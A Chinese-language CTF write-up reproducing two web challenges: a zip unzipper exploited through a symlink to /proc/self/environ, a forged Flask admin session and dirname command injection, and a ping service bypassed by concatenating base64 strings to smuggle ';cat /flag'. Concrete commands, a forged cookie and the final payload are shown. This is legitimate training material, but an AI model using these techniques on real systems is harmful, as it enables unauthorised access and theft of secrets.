

N1CTF Junior 3rd 2/2(Jeopardy) 复现

#### online_unzipper

```
online_unzipper
```

核心代码

```python
@app.route("/upload", methods=["GET", "POST"])
def upload():
    if "username" not in session:
        return redirect(url_for("login"))

    if request.method == "POST":
        file = request.files["file"]
        if not file:
            return "未选择文件"

        role = session["role"]

        if role == "admin":
            dirname = request.form.get("dirname") or str(uuid.uuid4())
        else:
            dirname = str(uuid.uuid4())

        target_dir = os.path.join(UPLOAD_FOLDER, dirname)
        os.makedirs(target_dir, exist_ok=True)

        zip_path = os.path.join(target_dir, "upload.zip")
        file.save(zip_path)

        try:
            os.system(f"unzip -o {zip_path} -d {target_dir}")
        except:
            return "解压失败，请检查文件格式"

        os.remove(zip_path)
        return f"解压完成！<br>下载地址: <a href='{url_for('download', folder=dirname)}'>{request.host_url}download/{dirname}</a>"

    return render_template("upload.html")
```

发现admin可以直接将保存名设置为文件名，这里可以导致文件名的命令注入。但是注册后默认是user，考虑篡改session来改成admin。

```python
app.secret_key = os.environ.get("FLASK_SECRET_KEY", "test_key")
```

想要篡改session要先获取```flask secret_key```，发现可以从环境变量```FLASK_SECRET_KEY```中获取，故可以找方法尝试访问```/proc/self/environ```

通过学习后发现可以构造带有指向```/proc/self/environ```的符号链接文件并压缩上传

```shell
ln -s -T /proc/self/environ my_link_file
zip -y my_archive.zip my_link_file
```

上传```my_archive.zip```后可以下载```my_link_file```，读取到了环境变量

```tex
HOSTNAME=79556ae2b6cf HOME=/root GPG_KEY=A035C8C19219BA821ECEA86B64E628F8D684696D PYTHON_SHA256=8fb5f9fbc7609fa822cb31549884575db7fd9657cbffb89510b5d7975963a83a FLASK_APP=app.py FLASK_RUN_HOST=0.0.0.0 PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin LANG=C.UTF-8 FLASK_SECRET_KEY=test PYTHON_VERSION=3.11.13 PWD=/app FLAG= 
```

得到```FLASK_SECRET_KEY=test```，现在可以构造session来修改成admin权限，使用flask_session_cookie_manager工具来伪造session

```cmd
python .\flask_session_cookie_manager3.py encode -s 'test' -t "{'role':'admin','username':'123'}"
eyJyb2xlIjoiYWRtaW4iLCJ1c2VybmFtZSI6IjEyMyJ9.aMldaQ.CkPpAM5fpdijLJIUVLHAedFpVGk
```

得到的session改完后，刷新发现变成了admin了，现在可以构造文件名来将flag移动到能够读取的```/uploads/```下来读取flag（至于为什么要移动到/upload/下，是因为这个文件夹存在且其下面的文件可以被读取，下载附件可以看到容器中是有```/uploads/```这个文件夹的）

在dirname后拼接命令，可以让

```python
os.system(f"unzip -o {zip_path} -d {target_dir}")
```

执行的时候拼接的命令



（这里先创建```/uploads/123/```文件夹，才能够move）


最后访问```/downloads/123```，可以下载flag


最后这个命令拼接构造尝试了好久，是根据docker desktop里面的命令执行返回信息来进行进一步修改的，正式比赛的时候需要最大化利用题目给的题目源码和docker，并且可以适当修改代码来获取debug信息，便于自己更好地理解。

---

#### ping

```
是熟悉的ping
```

核心代码

```python
def run_ping(ip_base64):
    try:
        decoded_ip = base64.b64decode(ip_base64).decode('utf-8')
        if not re.match(r'^\d+\.\d+\.\d+\.\d+$', decoded_ip):
            return False
        if decoded_ip.count('.') != 3:
            return False
        
        if not all(0 <= int(part) < 256 for part in decoded_ip.split('.')):
            return False
        if not ipaddress.ip_address(decoded_ip):
            return False
        if len(decoded_ip) > 15:
            return False
        if not re.match(r'^[A-Za-z0-9+/=]+$', ip_base64):
            return False
    except Exception as e:
        return False
    command = f"""echo "ping -c 1 $(echo '{ip_base64}' | base64 -d)" | sh"""

    try:
        process = subprocess.run(
            command,
            shell=True,
            check=True,
            capture_output=True,
            text=True
        )
        return process.stdout
    except Exception as e:
        return False
```

仔细阅读源码之后可知，用户会往前端传一个ip4地址，然后前端经过base64编码后发送给后端，后端会将其解码后严格检查是不是ip4地址，然后再利用编码后的ip4地址来在shell里面解码并且ping。

我们可以考虑通过控制```ip_base64```来进行命令注入，即在ping的命令后直接用分号阶段然后再rce

```shell
; cat /flag
```

但是难点在于，源码对ip4地址的检查非常的严格，只要不满足```数字.数字.数字.数字```的ip地址则会被直接ban掉，所以直接往正常ip地址后直接拼接命令是不行的。

这里有一点比较可疑，为什么源码在构造ping命令的时候不直接使用已经解密过的ip地址，而是要使用没解码过的地址然后再在shell里面进行解码。

经过尝试后发现，python的base64解码并不会对```=```padding之后的内容继续进行解码，而sh中的base64会对之后的内容继续解码。那么可以凭借这个差异，拼接两段base64编码字段，来绕过对ip地址严格的格式限制。

这里我们要找一个编码后有padding且ping地通的地址，比如```0.0.0.0```，然后我们再将```;cat /flag```进行编码，两段直接拼接再传过去就行了。

```
'0.0.0.0' -> 'MC4wLjAuMA=='
';cat /flag' -> 'O2NhdCAvZmxhZw=='

payload:
{
	"ip_base64": "MC4wLjAuMA==O2NhdCAvZmxhZw=="
}
```

这道题启发自己还是要更加仔细地阅读源码，不放过每一处可疑点，每一个不同于通常思路的写法可能会藏在意想不到的突破口。